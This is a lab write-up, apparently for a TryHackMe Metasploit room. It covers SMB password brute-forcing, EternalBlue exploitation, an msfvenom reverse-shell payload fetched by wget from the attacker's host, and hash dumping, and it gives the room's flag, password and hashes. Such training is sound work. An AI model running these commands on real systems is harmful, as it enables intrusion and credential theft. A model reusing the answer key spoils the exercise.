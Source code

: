 # Metasploit: Introduction

## Introduction

This room walks you through the process of finding a vulnerability in a system, and exploiting that vulnerability.

## Process

### Task 2: Scanning

This task showed us a few ways to scan systems, including Metasploit modules.

#### Task 2 Questions:

**How many ports are open on the target system?**\
5\
Scanning the target with nmap showed 5 open ports.

**Using the relevant scanner, what NetBIOS name can you see?**\
ACME IT SUPPORT\

**What is running on port 8000?**
webfs/1.21\

**What is the "penny" user's SMB password? Use the wordlist mentioned in the previous task.**\
leo1234\
Searching for smb_login and selecting auxiliary/scanner/smb/smb_login, the ```info``` command shows we need to set SMBUser to "penny", RHOSTS to the target IP, and the PASS_FILE to the password file specified in the first task.\
After setting those with ```set SMBUser penny```, ```set RHOSTS [target IP]```, and ```set PASS_FILE /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt```, running the module gives us the password ```leo1234```.

### Task 3: The Metasploit Database

This task explained how to use the Metasploit Database, first by starting the PostgreSQL database with the command ```systemctl start postgresql```, then ```msfdb init```.\
You can then check if the database is up by launching ```msfconsole``` and runnning ```db_status```.\
You can also list workspaces using ```workspace```, add workspaces using ```workspace -a NAME```, and delete workspaces using ```workspace -d NAME```.

### Task 4: Vulnerability Scanning

#### Task 4 Questions:
**Who wrote the module that allows us to check SMTP servers for open relay?**\
Campbell Murray\
Searching for smtp relay gives us the scanner/smtp/smtp_relay module. We can select it by running ```use 0```, and then use the ```info``` command to see the relevant information.

### Task 5: Exploitation

**Exploit one of the critical vulnerabilities on the target VM**\
The target machine is vulnerable to the exploit shown in the task images (ms17_010_eternalblue).\
I first open the ```msfconsole```, and search for eternalblue. The first result was the one we need (windows/smb/ms17/010/eternalblue), so I run ```use 0```.\
After running ```info```, I can see that RHOSTS has to be set to the target IP, so I do so with ```set RHOSTS [target IP]```.
I type ```run```, and a meterpreter session is eventually opened.

**What is the content of the flag.txt file?**\
THM-5455554845\
Navigate through commonly used folders, I find the flag file in the user's documents folder (C:\Users\Jon\Documents), showing the contents using ```edit flag.txt```. I can then push the meterpreter session to the background using ```CTRL-Z```.\

**What is the NTLM hash of the password of the user "pirate"?**\
8ce9a3ebd1647fcc5e04025019f4b875\
Now that the meterpreter session is in the background, we can leave the eternalblue module and searh for hashdump and windows: ```search hashdump windows``` (because the target machine is a windows machine) to find post/windows/gather/hashdump.\
Using that module, setting SESSION to 1 (my meterpreter session ID, checked by running the ```sessions``` command), and running prints the results we need, where the second hash on the pirate line is the one we are looking for.

### Task 6: Msfvenom

This task walks us through using msfvenom to create a reverse payload, and using that to open a meterpreter session and dump hashes of users on the system.\

#### Task 6 Questions:
**Create a meterpreter payload in the .elf format (on the AttackBox, or your attacking machine of choice).**\
We first create the meterpreter payload using ```msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf```. The example uses port 7777, but I found that port was being used so I used port 7776. I checked this by using ```nmap [AttackBox IP]```.

**Transfer it to the target machine (you can start a Python web server on your attacking machine with the python3 -m http.server 9000 command and use wget http://ATTACKING_MACHINE_IP:9000/shell.elf to download it to the target machine).**\
This is pretty straight forward, just note that the example wget command is searching for a file named shell.elf, whereas the one we created was named rev_shell.elf. I also made the file executable after transferring it by running ```chmod +x rev_shell.elf```.

**Get a meterpreter session on the target machine.**\
We now have to use Multi Handler to receive the connection: we reopen ```msfconsole```, run ```use exploit/multi/handler```, and set our payload using ```set payload linux/x86/meterpreter/reverse_tcp```. We also set our lhost and lport values to our AttackBox IP and port 7776 respectively.\
I tried to run the file from the target machine directly but found when I switched back to the AttackBox the connection would close, so from the AttackBox I then ssh into the target machine using the credentials provided, became super user with ```sudo su```, and ran the file, establishing the connection.
I then left the meterpreter session running in the background by pressing ```CTRL-Z```.

**Use a post exploitation module to dump hashes of other users on the system.**\
$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0\
Now that we have the meterpreter session running, we can leave the Multi Handler module by running ```back```, and then select the post exploitation module we want: ```use post/linux/gather/hashdump```.\
I checked the ID of the meterpreter session we opened by typing ```sessions```, and then set the session variable using ```set SESSION 1``` (the ID of my meterpreter session was 1).\
Running the post exploitation module by typing ```run``` gave the hashes we wanted!



## Conclusion and Learning Outcomes
This room was a great introduction into how to use the Metasploit framework, and the questions were pretty straight-forward and mostly just asked for terms or commands described in the tasks. 
